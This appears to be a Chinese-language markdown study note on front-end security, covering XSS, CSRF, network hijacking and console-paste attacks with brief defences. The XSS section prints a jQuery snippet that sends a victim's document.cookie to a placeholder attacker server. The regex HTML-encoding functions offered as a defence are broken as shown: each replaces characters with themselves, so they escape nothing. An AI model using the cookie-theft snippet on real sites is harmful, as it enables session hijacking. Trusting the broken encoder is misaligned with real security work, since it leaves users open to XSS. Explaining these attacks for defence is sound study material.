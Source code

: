 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*
# 网络安全

## 前端攻击方式

- [XSS (Cross Site Scripting) 跨站脚本攻击](#xss-cross-site-scripting-%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%94%BB%E5%87%BB)
- [CSRF (Cross-site request forgery) 跨站请求伪造](#csrf-cross-site-request-forgery-%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0)
- [网络劫持](#%E7%BD%91%E7%BB%9C%E5%8A%AB%E6%8C%81)
- [控制台注入代码](#%E6%8E%A7%E5%88%B6%E5%8F%B0%E6%B3%A8%E5%85%A5%E4%BB%A3%E7%A0%81)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## XSS (Cross Site Scripting) 跨站脚本攻击

XSS是一种经常出现在web应用中的计算机安全漏洞，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。其实在web前端方面，可以简单的理解为一种javascript代码注入。

场景：

在某些论坛的评论中，插入了 ajax 代码，在其他人访问该页面时，可以获取他人在当前域名下的 cookie 并发送到的服务器上。

注入代码：
```js
$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});
```

防范措施：  
1、将前端输出数据都进行转义。  
2、使用 cookie 的 HttpOnly 属性保护好 cookie。  

两张转义和反转义的方式：

```js
var HtmlUtil = {
		/*1.用浏览器内部转换器实现html转码*/
  htmlEncode: function(html) {
    //1.首先动态创建一个容器标签元素，如DIV  
    var temp = document.createElement("div");
    //2.然后将要转换的字符串设置为这个元素的innerText(ie支持)或者textContent(火狐，google支持)  
    (temp.textContent != undefined) ? (temp.textContent = html) : (temp.innerText = html);
    //3.最后返回这个元素的innerHTML，即得到经过HTML编码转换的字符串了  
    var output = temp.innerHTML;
    temp = null;
    return output;
  },
  /*2.用浏览器内部转换器实现html解码*/
  htmlDecode: function(text) {
    //1.首先动态创建一个容器标签元素，如DIV  
    var temp = document.createElement("div");
    //2.然后将要转换的字符串设置为这个元素的innerHTML(ie，火狐，google都支持)  
    temp.innerHTML = text;
    //3.最后返回这个元素的innerText(ie支持)或者textContent(火狐，google支持)，即得到经过HTML解码的字符串了。  
    var output = temp.innerText || temp.textContent;
    temp = null;
    return output;
  },
  /*3.用正则表达式实现html转码*/
  htmlEncodeByRegExp: function(str) {
    var s = "";
    if (str.length == 0) return "";
    s = str.replace(/&/g, "&");
    s = s.replace(/</g, "<");
    s = s.replace(/>/g, ">");
    s = s.replace(/ /g, " ");
    s = s.replace(/\'/g, "'");
    s = s.replace(/\"/g, '"');
    return s;
  },
  /*4.用正则表达式实现html解码*/
  htmlDecodeByRegExp: function(str) {
    var s = "";
    if (str.length == 0) return "";
    s = str.replace(/&/g, "&");
    s = s.replace(/</g, "<");
    s = s.replace(/>/g, ">");
    s = s.replace(/ /g, " ");
    s = s.replace(/'/g, "\'");
    s = s.replace(/"/g, "\"");
    return s;
  }
};
```

## CSRF (Cross-site request forgery) 跨站请求伪造

CSRF 是一种对网站的恶意利用。其实就是网站中的一些提交行为，被黑客利用，你在访问黑客的网站的时候，进行的操作，会被操作到其他网站上

场景：

某些商场的提交操作使用 get 方式，或者 post 请求无需验证码。

防范措施：
1、避免数据操作类的行为使用 get 请求。
2、post 请求添加验证码（token）。

## 网络劫持

很多的时候，我们的网站不是直接就访问到我们的服务器上的，中间会经过很多层代理，如果在某一个环节，数据被中间代理层的劫持者所截获，他们就能获取到使用你网站的用户的密码等保密数据。比如，我们的用户经常会在各种饭馆里面，连一些奇奇怪怪的wifi，如果这个wifi是黑客所建立的热点wifi，那么黑客就可以结果该用户收发的所有数据。这里，建议站长们网站都使用https进行加密。这样，就算网站的数据能被拿到，黑客也无法解开。

## 控制台注入代码

黑客会诱骗用户去往控制台里面粘贴代码，获取用户的信息。

See Also

[聊一聊WEB前端安全那些事儿](https://segmentfault.com/a/1190000006672214)  
[JS对HTML字符的转义和反转义](https://blog.csdn.net/u013026207/article/details/53994032)  
